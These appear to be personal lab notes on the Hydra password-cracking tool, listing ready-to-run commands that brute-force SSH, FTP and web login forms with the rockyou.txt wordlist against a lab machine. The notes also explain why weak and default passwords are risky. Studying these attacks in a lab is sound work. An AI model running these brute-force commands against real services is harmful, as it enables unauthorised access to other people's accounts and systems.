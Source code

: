 # Learn again

<hr class="sep-both">

## Hydra

* https://github.com/vanhauser-thc/thc-hydra
* bruteforce some authentication service
  * MYSQL
  * RDP
  * SSH

This shows the importance of using a strong password, if your password is common, doesn't contain special characters and/or is not above 8 characters, its going to be prone to being guessed. 100 million password lists exist containing common passwords, so when an out-of-the-box application uses an easy password to login, make sure to change it from the default! Often CCTV camera's and web frameworks use admin:password as the default password, which is obviously not strong enough.

* hydra -l username -P rockyou.txt ssh://MACHINE_IP
* hydra -l username -P rockyou.txt ftp://MACHINE_IP
* `-t n`: use $n$ threads
* hydra -l username -P rockyou.txt MACHINE_IP ssh
* Post Web Form
* http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V
  * /login
  * name="usernam" is filled with the username (USER)
  * name="password" is filled with the password (PASS)
  * F=incorrect means that the attempt is incorrect is this word is on the page
* -V: verbose
* hydra -l molly -P rockyou.txt 10.10.19.153 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V